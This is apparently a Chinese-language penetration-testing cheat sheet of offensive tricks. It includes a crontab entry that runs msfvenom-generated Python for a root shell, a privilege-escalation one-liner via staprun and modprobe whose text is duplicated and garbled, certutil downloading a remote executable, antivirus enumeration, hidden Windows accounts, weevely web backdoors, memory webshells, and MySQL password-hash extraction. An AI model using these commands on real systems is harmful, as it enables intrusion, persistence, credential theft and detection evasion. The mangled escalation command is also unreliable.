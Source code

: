 # 奇淫技巧

1. 验证是否为docker环境

```bash
ls -alh /.dockerenv
```

2. ifconfig命令找不到，查看IP

```bash
cat /etc/hosts
```

3. curl探测端口

```bash
curl http://192.168.16.1:[1-100] 1> 1.txt 2>/dev/null
curl http://192.168.16.1:[8000-9999] 1>> 1.txt 2>/dev/null
```

4. 写计划任务拿shell

```bash
echo  "* *     * * *   root   python –c \" [msfvenom生成的代码]\"" >> /etc/crontab
```

5. URL后添加目录名访问后，自动加上`/`，说明目录存在
6. `w`命令查看当前登录用户
7. `last`命令查看登录记录
8. windows-JuicyPotato提权-MS16-075
9. web后门生成-weevely工具
10. 使用icon_hash="hash"查找隐形资产
11. wooyun镜像库搜索历史漏洞
12. 抓包auth参数校验，base64
13. 内存马优于webshell，webshell上线后立马用cs上线
14. windows创建隐藏账户，或激活guest更隐蔽
15. smb445登录windows
16. 任意文件读取，读日志文件
17. 上传web.config运行asp代码
18. CS读取进程 利用进程的绑定，避免shell被干掉
19. PHPINFO信息收集，网站根路径
20. windows查找杀软

```cmd
wmic /node:localhost /namespace:\\root\SecurityCenter2 path AntiVirusProduct Get DisplayName | findstr /V /B /C:displayName || echo No Antivirus installed
```

21. windows下，文件命名不能存在空格，以此构造文件名`xxx.php. (空格)`上传
22. linux一句话提权

```bash
printf "install uprobes /bin/sh" > exploit.conf; MODPROBE_OPTIONS="-C exploit.conf" staprun -u whatever exploit.conf" staprun -u whatever> exploit.conf; MODPROBE_OPTIONS="-C
```

23. 善用msf的auxiliary/server/socks4a模块建立socks代理，配合proxychains使用
24. windows下，使用Certutil.exe（or powershell）下载远程文件

```bash
certutil.exe -urlcache -split -f http://ip/test.exe /var/www/html/test.exe
```

25. MYSQL获取密码

```bash
#方式一
查看F:\MySQL\data\mysql下的user.MYD文件，010打开，寻找hash值，带星号的为40位哈希值，解密

#方式二
user.MYD/user.frm/user.MYI三个文件替换本地文件
然后
cd bin
mysqld --skip-grant-tables
-----------------------
另起一个cmd
mysql -u root
select user,password from mysql.user;
```

26. `/var/log/lastlog`和`/var/log/wtmp`这两个文件有记录登录ip
27. 文件包含到RCE

```
https://www.toutiao.com/i6718905823352848903/#&gid=1&pid=1
1. /proc/self/environ文件
2. Apache和SSH等日志文件
3. /var/mail日志记录
```



